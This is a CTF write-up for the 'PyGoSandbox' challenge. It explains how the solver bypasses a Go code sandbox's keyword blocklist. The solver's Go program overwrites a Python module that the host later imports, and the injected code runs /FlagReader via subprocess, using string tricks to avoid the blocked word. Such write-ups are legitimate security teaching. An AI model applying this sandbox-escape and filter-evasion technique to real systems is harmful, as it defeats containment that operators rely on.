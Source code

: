 # CTF Writeup: PyGoSandbox

## Challenge Information

- **Challenge Name:** PyGoSandbox
- **Challenge level:** Hard (3 solves)
- **Author:** zAbuQasem
- **CTF Event:** CATF 23
- **Category:** MISC

## Description

I'm back stronger than ever, after failing to build a secure calculator, i made a life changing career shift!, now i'm building top notch Golang sandboxes that no one with IQ lower than 0.567 can bypass. Can you?!

## Solution

### Initial Analysis

1- We take a look at the Dockerfile to know what we have to do, we will find that the real flag is in the `/root` dir and there is a fake flag as env variable and there is a `/FlagReader` which we have to execute to get the flag.

2- When we inspect the `encrypt.py` file we will find that it encrypts the fake flag. **intersting**

3- Lets inspect the `challenge.py` it blocks some words`BLOCKLIST = ["Scan","os","net","exec","syscall","cli","bufio","Flag","chatgpt"]` and sice it blocks the os word we can't do what we want directly so we have to find another indirect way

### Finding Clues

1- We can use the `io` package which can read and write files... but even if we can read we cant read the flag since we don't have the permission and even if we can write a file we can't execute it 

2- The challenge imports the `EncryptFlag` function from the encrypt.py file and executes it after our go code gets executed **The Ultra Major Clue**

### Exploitation

We can overwrite the `encrypt.py` with our python code and let the challenge it self exectute it so to craft our payload first thing we need is to write a python code to execute the `/FlagReader` inside a function called `EncryptFlag()` but we have a problem here which is we cant use the word `Flag` in our payload and to mitigate this problem we can use `flag` and then capitalize the `F` for the file name we can use the `replace()` function and for the function name we can use `globals()["Encryptflag".replace("f", "F")] = Encryptflag` so now we are done form the python code. The second thing we need is to write a go code to overwrite the `encrypt.py` and as we said eralier we can use `io/ioutil` to do that, so now we are ready to send our payload and get our flag

### payload

```
package main

import (
	"fmt"
	"io/ioutil"
)

func main() {
	// The file where to write data
	filePath := "encrypt.py"

	// The data you want to write to the file
	data := `
import subprocess
def Encryptflag():
	flag = "/flagReader"
	flag = flag.replace("f", "F")
	result = subprocess.check_output([flag], universal_newlines=True)
	print(result)
globals()["Encryptflag".replace("f", "F")] = Encryptflag
`

	// Write data to the file
	err := ioutil.WriteFile(filePath, []byte(data), 0644)
	if err != nil {
		fmt.Println("Error writing to file:", err)
		return
	}

	fmt.Println("Data written to the file successfully.")
}
EOF
```

**FLAG**
`CATF{GoL4ng_S4nDb0x_xB0x_1337_e477313264bb190024d654ef0a08fb1732af4f4b498a2e8ad__2@23_}`
